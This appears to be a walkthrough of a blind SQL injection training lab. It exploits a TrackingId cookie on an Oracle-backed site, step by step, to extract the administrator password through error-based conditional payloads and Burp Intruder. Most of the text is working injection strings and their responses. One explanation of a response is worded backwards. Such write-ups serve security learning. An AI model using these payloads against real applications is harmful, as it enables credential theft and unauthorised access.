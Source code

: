 The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

Vulnerable parameter - trackingId cookie
First step is to intercept and modify the request containing the TrackingId cookie.

# End goal:
+ Output the administrator password
+ Login as the administrator user

# Analysis:

## 1. Prove that parameter is vulnerable.  
Using ' and '' respectively to verify how it would be if an merror message is received.  

## 2. Figure out which type of database it is:  
`TrackingId=xyz'||(SELECT '')||'`   
-- mySQL syntax, a SQL syntas error received.  

TrackingId=xyz'||(SELECT '' FROM dual)||'   
-- Oracle syntax, must followed by 'FROM'. dual is a dummy tabel.   
-- No error received. So the target is probably using an Oracle database.

## 3. Confirm the users table exists in the database  
`' || (select '' from users) ||'`  
-> type 500 internal server error  
--The users table may contain more than one row, and this will output an empty entry for each entry in the users table. So if the users table has five entries, this will be ouput in five different rows which may break our sever code webapp.

`' || (select '' from users where rownum=1) ||'`  
-> 200 OK  
-- The users table exists.  

## 4. Confirm that the administrator user exists in the users database.  
`' || (select '' from users where username='administrator') ||'`  
-> If the administrator exists, it will return a 200 OK respond.  
-> If the administrator does not exist, it will ignore the query and still return a 200 OK respond.  

`' || (select CASE WHEN (1=1) then TO_CHAR(1/0) ELSE '' END from users where username='administrator') ||'`  
-> If the administrator exists, it will go to the select part, since 1=1, it will do TO_CHAR(1/0), which will return a 500 internal server error.  
-> If the administrator does not exist, it will ignore the query and still return a 200 OK respond.  

## 5. Determine the length of password  
`' || (select CASE WHEN (1=1) then TO_CHAR(1/0) ELSE '' END from users where username='administrator' and length(password)>1) ||'`  
-> 200 OK: the password length is less than 1.  
-> 500 error: the password length is longer than 1.  
By using intruder in Burp, we can easily get the length of password is 20.  

## 6. Determine the password  
`' || (select CASE WHEN (1=1) then TO_CHAR(1/0) ELSE '' END from users where username='administrator' and substr(password,1,1)='a') ||'`  
-> 200 OK: the first character of the password is not 'a'  
-> 500 error: the first character of the password is 'a'  
By repeating the process in intruder in Burp, we will get the full password.  
